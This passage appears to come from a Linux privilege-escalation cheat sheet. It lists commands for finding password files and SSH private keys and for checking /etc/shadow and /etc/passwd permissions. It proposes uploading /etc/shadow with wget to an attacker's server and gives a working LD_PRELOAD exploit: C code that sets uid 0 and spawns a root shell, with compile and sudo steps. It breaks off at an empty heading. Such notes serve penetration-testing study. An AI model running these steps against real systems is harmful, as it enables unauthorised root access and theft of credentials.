 For files named `password`: `locate password | more`

>We can attempt these commands with `PASSWORD=` , `passwd`, `password`, etc.

### *Weak File Permissions*

Look for **read or write** permissions to `/etc/shadow`

Look for **write** permission to `/etc/passwd`

Anything interesting in `/etc/group` ?


### *SSH Keys*

    find / -name id_rsa 2>/dev/null
    find / -name authorized_keys 2>/dev/null
    
## **[SUDO]**

*Abusing sudo to gain root.*

### *Sudo Shell Escaping*

    sudo -l

Shell escape using an exploitable binary using [GTFOBins](https://gtfobins.github.io/)

### *Intended Functionality*

Is there any intended functionality we can abuse from a sudo'able binary? Example: use `wget` to upload the `/etc/shadow` file to our private server?

### *`env_keep+=ENV_PRELOAD` is present*

*We want to use the ENV_PRELOAD feature in order to preload a malicious payload.*

1. Create the following C script named `<NAME>.so`

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

2. Compile it : `gcc -fPIC -shared -o <NAME>.so <NAME>.c -nostartfiles`

3. Set LD_PRELOAD as shell.so : `sudo LD_PRELOAD=<PATH TO SHELL FILE> <ANY SUDO'ABLE COMMAND>`

### *Version Specific Exploits*
